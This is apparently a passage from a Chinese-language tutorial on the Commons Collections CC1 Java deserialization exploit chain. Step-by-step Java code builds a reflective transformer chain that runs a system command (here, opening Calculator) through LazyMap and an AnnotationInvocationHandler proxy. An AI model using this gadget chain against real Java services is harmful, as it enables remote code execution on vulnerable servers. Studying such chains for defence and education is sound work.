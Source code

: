 - 构造`transformers`，主要通过`transformer`调用链实现反射触发恶意代码

```java
final Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
        "getMethod",
        new Class[] { String.class, Class[].class },
        new Object[] { "getRuntime", new Class[0] }
    ),
    new InvokerTransformer(
        "invoke",
        new Class[] { Object.class, Object[].class },
        new Object[] { null, new Object[0] }
    ),
    new InvokerTransformer(
        "exec",
        new Class[] { String.class },
        new String[] { "open -a Calculator" }
    ),
    new ConstantTransformer(1)
};

Transformer transformerChain = new ChainedTransformer(transformers);

```

- 创建`LazyMap`

```java
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

```

- 实例化代理对象。这里不能直接`new`对象，需要通过反射获取`AnnotationInvocationHandler`构造函数进行构造。

```java
// 通过反射获取 AnnotationInvocationHandler 构造函数
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> annoConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
annoConstructor.setAccessible(true);

// 利用构造函数实例化,创建与 lazyMap 关联的 InvocationHandler
InvocationHandler lazyMapHandler = (InvocationHandler) annoConstructor.newInstance(Retention.class, lazyMap);

// 实例化代理对象,proxyMap 调用的方法都会被转发 InvocationHandler#invoke 方法
Map proxyMap = (Map) Proxy.newProxyInstance(
    Map.class.getClassLoader(),
    new Class[]{Map.class},
    lazyMapHandler
);

```
这里的`proxyMap`类型是`Map`，不能直接对其进行序列化，因为入口点是 `AnnotationInvocationHandler#readObject`，所以需要用`AnnotationInvocationHandler`对这个`proxyMap`进行包裹

